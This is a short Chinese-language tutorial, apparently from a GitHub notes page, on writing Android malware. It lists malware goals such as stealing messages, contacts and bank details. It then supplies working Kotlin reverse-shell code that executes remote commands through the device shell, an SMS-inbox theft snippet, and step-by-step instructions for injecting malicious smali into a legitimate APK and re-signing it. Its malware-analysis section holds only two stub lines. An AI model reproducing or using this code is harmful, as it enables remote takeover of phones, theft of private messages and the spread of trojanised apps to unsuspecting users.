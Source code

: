 ## 恶意软件会做些什么
事实上，典型的移动应用恶意软件就是运行在移动设备上的传统恶意软件。恶意软件的目的完全取决于其作者想要得到什么。下面是安卓恶意软件的一些特征
- 窃取个人信息，并发送到攻击者服务器上（个人信息包括短信，通话记录，联系人，通过录音，gps位置，图片，视频，浏览历史记录以及手机imei码等）
- 发送付费短信
- root设备
- 使攻击者获得远程控制权限
- 在未经用户允许的情况下安装其他应用
- 作为广告软件存在
- 窃取银行账户信息

## 编写安卓恶意软件
### 反向shell
```kotlin
fun getReverseShell(){
        val thread = Thread{
            val SERVERIP = "172.0.0.1"
            val port = 1377
            try {
                var host = InetAddress.getByName(SERVERIP)
                var socket = Socket(host, port)
                Log.d("TCP CONNECTION","connecting to $SERVERIP:$port(TCP)")
                while (true){
                    var printWriter : PrintWriter ?= PrintWriter(BufferedWriter(OutputStreamWriter(socket.getOutputStream())))
                    val input = BufferedReader(InputStreamReader(socket.getInputStream()))
                    var command = input.readLine()
                    val process = Runtime.getRuntime().exec(arrayOf("/system/bin/sh","-c",command))
                    val reader = BufferedReader(InputStreamReader(process.inputStream))
                    var charArray = CharArray(4096)
                    var stringBuffer = StringBuffer()
                    var read : Int
                    while ((reader.read(charArray).also { read = it }) > 0){
                        stringBuffer.append(charArray,0,read)
                    }
                    reader.close()
                    val result = stringBuffer.toString()
                    process.waitFor()
                    if (result != null){
                        Log.d("COMMAND RESULT",result)
                    }
                    printWriter = null
                    
                }
            }catch (e:Exception){
                
            }
        }.start()
    }
```

### 编写简单的短信窃取应用
```java
Uri uri = Uri.parse("content://sms/inbox")
getContentResolver().query(uri,null,null,null,null)
```

### 感染合法应用
恶意应用很容易修改和感染原始应用
- 使用apktool工具得到原始应用和恶意应用的smali代码
- 将恶意应用的smali文件添加到原始应用的smali文件夹下
- 将恶意应用的所有配置修改到原始应用
- 将恶意应用所需要的权限添加至原始应用的清单文件中
- 如有需要，声明组件等
- 使用apktool工具重新打包原始应用
- 使用keytool和jarsigner工具对新生成的apk文件进行签名

## 恶意应用分析
### 静态分析
分析代码
### 动态分析
分析流量